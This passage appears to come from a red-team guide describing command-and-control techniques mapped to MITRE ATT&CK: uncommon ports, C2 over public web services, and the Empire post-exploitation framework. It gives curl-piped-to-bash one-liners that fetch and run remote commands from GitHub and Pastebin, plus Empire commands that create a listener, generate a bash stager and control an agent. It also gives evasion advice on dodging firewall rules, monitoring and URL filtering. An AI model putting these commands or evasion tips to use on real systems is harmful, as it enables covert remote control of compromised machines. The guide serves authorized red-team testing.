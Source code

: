 **Specific ATT&CK Mapping**:
- Uncommon port usage implements T1571
- Port selection helps avoid basic firewall rules

**Red Team Guidance**:
- Use ports that appear similar to legitimate services
- Consider high ports that may be less monitored
- Document port usage for reporting and cleanup

### Web Service (T1102)

This involves using public web services for command and control.

**C2 Over Public Services**:
```bash
# Example using GitHub as a C2 channel
curl -s https://raw.githubusercontent.com/redteam/commands/main/instructions.txt | bash

# Example using Pastebin
curl -s https://pastebin.com/raw/AbCdEfGh | bash
```

**Specific ATT&CK Mapping**:
- Using legitimate web services implements T1102
- Public services often bypass URL filtering

**Detection Considerations**:
- Access to specific domains might be monitored
- Consider using multiple services for redundancy
- Implement content encryption before posting to public services

### Empire: Post-Exploitation C2 Framework

**Empire** provides a comprehensive C2 framework:

```bash
# Start Empire
sudo empire

# Create a listener
uselistener http
set Name operation
set Host 192.168.1.100
set Port 8080
execute

# Generate a stager
usestager multi/bash
set Listener operation
execute

# Interact with agent
agents
interact C2A3BEP1
```
